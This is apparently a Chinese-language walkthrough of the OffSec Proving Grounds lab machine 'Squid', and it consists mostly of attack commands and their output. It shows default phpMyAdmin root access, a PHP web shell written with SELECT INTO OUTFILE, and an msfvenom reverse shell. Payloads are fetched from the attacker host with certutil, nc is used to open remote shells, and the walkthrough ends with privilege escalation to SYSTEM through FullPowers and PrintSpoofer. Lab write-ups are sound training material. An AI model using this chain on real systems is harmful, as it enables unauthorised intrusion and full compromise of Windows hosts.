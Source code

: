 ###### tags: `Offsec` `PG Practice` `Easy` `Windows`

# Squid
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.214.189 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.214.189:135
Open 192.168.214.189:139
Open 192.168.214.189:445
Open 192.168.214.189:3128
Open 192.168.214.189:49666
Open 192.168.214.189:49667

PORT      STATE SERVICE       REASON  VERSION
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
3128/tcp  open  http-proxy    syn-ack Squid http proxy 4.14
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
```

參考[hacktricks](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid)，進行掃描
```
┌──(kali㉿kali)-[~/pgplay]
└─$ git https://github.com/aancw/spose.git

┌──(kali㉿kali)-[~/pgplay/spose]
└─$ python3 spose.py --proxy http://192.168.162.189:3128 --target 192.168.162.189
Using proxy address http://192.168.162.189:3128
192.168.162.189 3306 seems OPEN 
192.168.162.189 8080 seems OPEN 
```

在瀏覽器修改proxy則可進入網頁，查看`http://192.168.162.189:8080/phpmyadmin/`可使用預設帳號`root`登入(密碼空)
再去`http://192.168.162.189:8080/?phpinfo=-1`搜尋可以上傳shell的路徑

![Squid_1.png](picture/Squid_1.png)

```
DOCUMENT_ROOT 	C:/wamp/www
```

在phpmyadmin裡面新增shell檔案

![Squid_2.png](picture/Squid_2.png)

```
SELECT "<?php echo system($_GET['cmd']); ?>" into OUTFILE 'C:/wamp/www/shell.php' 
```

查看`http://192.168.162.189:8080/shell.php?cmd=whoami`
看起來本來就有一個shell.php?

![Squid_3.png](picture/Squid_3.png)

製作reverseshell，開nc
```
┌──(kali㉿kali)-[~/pgplay]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.45.228 lport=9001 -f exe > met_9001.exe

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

http://192.168.162.189:8080/shell.php?cmd=certutil.exe -urlcache -f http://192.168.45.228/met_9001.exe met_9001.exe
http://192.168.162.189:8080/shell.php?cmd=met_9001.exe
```

等反彈，`C:\`有一個local.txt
```
C:\>type local.txt
ccd3073711e018da88ae587d78b55496
```

翻writeup翻到這個工具，[FullPowers](https://github.com/itm4n/FullPowers/releases/tag/v0.1)我覺得棒棒!他是把`local service`的user有機會變成system，但我這邊是利用他可以打開`SeImpersonatePrivilege`權限再用Printspoofer
```
PS C:\Users\Public\Documents> certutil.exe -urlcache -f http://192.168.45.228/FullPowers.exe FullPowers.exe

PS C:\Users\Public\Documents> whoami
nt authority\local service
PS C:\Users\Public\Documents> certutil.exe -urlcache -f http://192.168.45.228/nc.exe nc.exe

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9002

PS C:\Users\Public\Documents> ./FullPowers.exe -c "C:\Users\Public\Documents\nc.exe 192.168.45.228 9002 -e cmd" -z
```

等反彈查看權限，下載`Printspoofer`
```
C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State  
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled

C:\Users\Public\Documents>certutil.exe -urlcache -f http://192.168.45.228/PrintSpoofer64.exe PrintSpoofer.exe

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9003

C:\Users\Public\Documents>PrintSpoofer.exe -i -c "C:\Users\Public\Documents\nc.exe 192.168.45.228 9003 -e cmd"
```

再等反彈，去`C:\Users\Administrator\Desktop`可得proof.txt
```
C:\Users\Administrator\Desktop>type proof.txt
4af6926a34d04aca5c4c6434181eb8f5
```